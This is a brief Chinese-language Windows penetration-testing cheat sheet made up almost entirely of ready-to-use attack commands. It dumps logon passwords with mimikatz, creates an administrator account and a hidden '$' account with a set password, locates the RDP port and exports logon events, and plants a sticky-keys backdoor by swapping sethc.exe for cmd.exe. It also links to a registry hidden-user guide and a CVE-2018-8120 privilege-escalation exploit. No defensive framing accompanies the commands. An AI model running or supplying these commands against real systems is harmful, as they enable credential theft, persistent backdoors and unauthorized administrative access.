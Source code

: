 # Windows渗透备忘录

### mimikatz

```
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt


```

###  添加用户

```
net user cmc Nqpqsnm123 /add

net localgroup administrators cmc /add

net user cmc$ Nqpqsnm123 /add
```

### 查看rdp端口

```
tasklist /svc |  findstr "TermService"

netstat -ano

REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber
```

```
 3389记录获取：wevtutil.exe qe security "/q:*[System [(EventID=4624)]]"/f:text /rd:true /c:100 > c:\sys.txt     100是条数
```

### Shift后门

替换system32下的sethc.exe为cmd.exe

关闭远程桌面的

![image-20191107102719394.png](https://i.loli.net/2019/11/07/UY6mtA1eZOWRHxf.png)

使用Kali rdesktop 

## 创建注册表隐藏用户

 [https://blog.csdn.net/abcd51685168/article/details/41854981]( https://blog.csdn.net/abcd51685168/article/details/41854981 ) 

### 提权工具

#### 2018-8120

 [https://github.com/unamer/CVE-2018-8120]( https://github.com/unamer/CVE-2018-8120 ) 

